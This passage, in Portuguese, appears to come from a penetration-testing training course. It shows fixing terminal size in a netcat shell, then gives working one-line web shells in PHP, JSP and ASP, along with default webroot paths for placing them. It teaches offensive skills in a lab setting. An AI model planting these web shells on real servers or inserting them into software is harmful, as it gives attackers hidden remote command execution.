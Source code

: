```shell-session
casluxd@htb[/htb]$ stty size

67 318
```

O primeiro comando nos mostrou a variável `TERM` e o segundo nos mostra os valores para `rows` e `columns`, respectivamente. Agora que temos nossas variáveis, podemos voltar ao nosso shell `netcat` e usar o seguinte comando para corrigi-las:

```shell-session
www-data@remotehost$ export TERM=xterm-256color

www-data@remotehost$ stty rows 67 columns 318
```

## Shell Web

O tipo final de shell que temos é um arquivo `Web Shell`. A `Web Shell` é tipicamente um script da web, ou seja, `PHP` ou `ASPX`, que aceita nosso comando por meio de parâmetros de solicitação HTTP, como `GET` ou `POST` parâmetros de solicitação, executa nosso comando e imprime sua saída de volta na página da web.

#### Escrevendo um Web Shell

Em primeiro lugar, precisamos escrever nosso shell da web que receberia nosso comando por meio de uma solicitação `GET`, executá-lo e imprimir sua saída de volta. Um script de shell da web é tipicamente um one-liner que é muito curto e pode ser facilmente memorizado. A seguir estão alguns scripts de shell da web curtos comuns para linguagens da web comuns:

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

#### Carregar um Web Shell

Assim que tivermos nosso shell da web, precisamos colocar nosso script de shell da web no diretório da web do host remoto (webroot) para executar o script por meio do navegador da web. Isso pode ocorrer por meio de uma vulnerabilidade em um recurso de upload, que nos permitiria gravar um de nossos shells em um arquivo, ou seja, carregá-lo `shell.php` e, em seguida, acessar nosso arquivo carregado para executar comandos.

No entanto, se tivermos apenas a execução remota de comandos por meio de um exploit, podemos gravar nosso shell diretamente no webroot para acessá-lo pela web. Então, o primeiro passo é identificar onde está o webroot. A seguir estão as raízes da web padrão para servidores da web comuns:

|Servidor web|Webroot padrão|
|---|---|
|`Apache`|/var/www/html/|
|`Nginx`|/usr/local/nginx/html/|
|`IIS`|c:\inetpub\wwwroot\|
|`XAMPP`|C:\xampp\htdocs\|
